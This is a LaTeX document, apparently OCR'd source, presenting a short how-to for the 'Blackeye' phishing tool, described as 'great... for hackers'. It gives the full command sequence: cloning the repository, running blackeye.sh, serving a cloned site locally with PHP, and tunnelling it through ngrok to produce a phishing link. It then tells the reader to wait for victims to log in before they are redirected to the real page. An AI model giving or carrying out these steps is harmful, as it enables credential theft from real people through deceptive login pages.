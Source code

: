 \documentclass[12 pt, letterpaper]{extarticle}
\newcommand{\R}{\textcolor{red}} %
\newcommand{\T}{\texttt}
\begin{document}
\subsection*{Blackeye: The ultimate phishing tool for free} %
Blackeye is a great phishing tool for hackers. Here is the complete instruction:
Before this: Create and connect your \textbf{ngrok} account through terminal to get localhost (one for free). Or if it already exists on your system then kill the previous process by this command: \R{\T{kill -9 {PID\footnote{Process ID}}}} (You need to find out that wheres the process is running, may be it on the sites folder). To get the PID run the command: \R{\T{top}} and find PID of \textbf{ngrok}. \R{\T{ctrl + c}} to get out from the process.
\begin{enumerate}
	\item Get blackeye:  \R{\T{ git clone https://github.com/An0nUD4Y/blackeye.git}}
	\item Change directory to blackeye: \R{\T{cd blackeye}}
	\item Run blackeye.sh:
		\begin{enumerate}
			\item \R{\T{bash blackeye.sh\footnote{better choice}}}
			\item \R{\T{chmod +x blackeye.sh}} $\rightarrow$ \R{\T{./blackeye.sh}}
		\end{enumerate}
	\item Choose an option
	\item While the process is running, do this job: open two terminal, one on blackeye, second on that sites folder that you wanna phish. Run this command on first terminal: \R{\T{./ngrok http 8080}}, before this, run this command on second terminal: \R{\T{php -S localhost:8080}} .
	\item Now at the first terminal, the phishing link is ready to go\dots
	\item Wait for victim to response.
	\item After loging into the phishing site. It will take the victim to original page.
\end{enumerate}

\vspace{5mm}
\end{document}
